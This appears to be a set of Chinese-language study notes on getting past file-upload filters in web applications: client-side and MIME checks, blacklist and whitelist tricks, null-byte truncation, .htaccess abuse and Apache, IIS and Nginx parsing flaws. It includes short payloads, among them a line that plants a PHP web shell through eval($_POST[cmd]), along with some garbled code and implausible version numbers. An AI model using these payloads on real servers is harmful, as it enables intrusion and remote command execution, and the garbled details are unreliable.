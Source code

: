 # load leaks
## javascript
移出当前检查后缀的 js 语句

### burp suite
更改扩展包，然后更改后缀

## 服务端 MIME 类型检查（检测 Content-Type 内容）
改扩展名，是绕不过去掉
在 post 请求中更改
Content-Type:image/gif（原为 Content-Type:text/plain)


## 服务端目录路径检测（检测跟 path 参数相关的内容）
关于 IIS
0x00 截断 漏洞
php 版本小于 2.6.4 都会这样
edjpgcom
将一句话木马插入到 jpg 中

## 服务端文件扩展名检测（检测跟文件 extension 相关的内容）

文件夹 cc.php / 里面所有的文件都会是以 php 运行

## 服务端文件内容检测（检测内容是否合法或者含有恶意代码）


## 黑名单检测
fckeditor 2.4.3

绕过方法：
- 文件名大小写绕过
	AsP，pHp
- 名单列表绕过
	利用黑名单没有的名单进行攻击  asa  cer
- 特殊文件名绕过
```
比如发送的 http 包吧文件名改为 test.asp. 或者 test.asp_ 在 windows 系统是不允许的 所以需要在 burp 之类进行修改，然后绕过验证之后，会被 windows 系统自带去掉后面的点和空格，但是 linux 和 Unix 没有这个特性
```

## 0x00 截断
name = getname(http reuqest)
假如获取的文件名是 test.asp .jpg(asp 后面为 0x00)

type = gettype(name)
gettype() 函数里处理方式是从后往前扫描扩展名，所以就判断为 jpg

if(type == jpg)
SaveFilePath(uploadpath.name, name)
但是这里却是以 0x00 作为文件名截断
最后以 test.asp 存入路径里

## 双扩展名解析绕开攻击
help.asp.123
Apache 从后面还是扫描  识别为 123 不会被 blacklist 截取
但是在 Apache 是从前向后扫描

## 双扩展名解析绕开攻击 2
如果 Apache 的 conf 里有一行配置 AddHandler-php5-script.php.jpg
即使扩展名是 jpg，一样以 php 执行

## .htaccess 文件攻击
上传一个自定义.htaccess

## 解析调用
配合上传一个代码注入过的非黑名单即可，在利用解析调用 / 漏洞


## 白名单

### 0x00 截断

### 解析调用 / 漏洞绕过
上传一个代码注入过的白名单文件即可，在利用解析调用

### .htaccess 文件攻击
Apache 安装之后就有一个这样的文件.htaccess
```
<FilesMatch "haha">
SetHandler application/x-httpd-php
</FilesMatch>
```
一句话木马文件名  haha  或者 haha1
这样会将 haha 以 php 解析

## 服务端检测绕过
### 文件幻数
jpg header:JFIF
gif header:GIF89a
png header:

### 文件相关信息监测
getimagesize()

GIF89a
(...some binary data for image)
<?php phpinfo(); ?>
(...some binary data for image)

### 文件加载检测
edjpgcom
在不破坏文件本身的渲染情况下找一个空白区进行填充一行木马
渲染 / 加载测试攻击
winhex 看数据可以分析工具原理

关于二次渲染  一般绕不过

### Apache leaks
属于白名单漏洞
x1.x2.x3
从后面开始解析，如果 x3 不认识，则检测 x2

Apacheserv 2.1.9 /2.5.10 /2.6.0
Apache 2.0.59 /2.2.8

### IIS 解析漏洞

1.asp;.jpg

依然可以菜刀连接

test.asp/1

依然作为 1.asp  运行
可以网上查询

### IIS 7.0 7.5 Nginx < 8.03
默认 Fast-CGI 开启状况下 test.jpg
<?php fput(fopen('shell.php', 'w'),'<php eval($_POST[cmd])?>');?>
然后访问 test.jpg/.php   这样会运行产生一个 shell.php


## 黑名单与白名单
### 黑名单
- 文件名大小写绕过
- 名单列表绕过
- 特殊文件名绕过
- 0x00 截断绕过
- .htaccess 文件攻击
- 本地包含漏洞
- Apache 解析漏洞
- IIS 解析漏洞
- Nginx 解析漏洞

### 白名单
- 0x00 截断绕过
- 本地文件包含漏洞
- IIS 解析漏洞
- Nginx 解析漏洞

## 上传攻击框架
用户输入
轻量级检测（检测绕过）javascript 检测 /MIME 类型检测绕过
文件内容检测（检测绕过） 代码注入过程
路径 / 扩展名检测
if 检测绕过
黑名单检测
白名单检测
else 检测未绕过
解析攻击
代码层解析调用 .htaccess 本地文件
应用层解析 Apache IIS Nginx

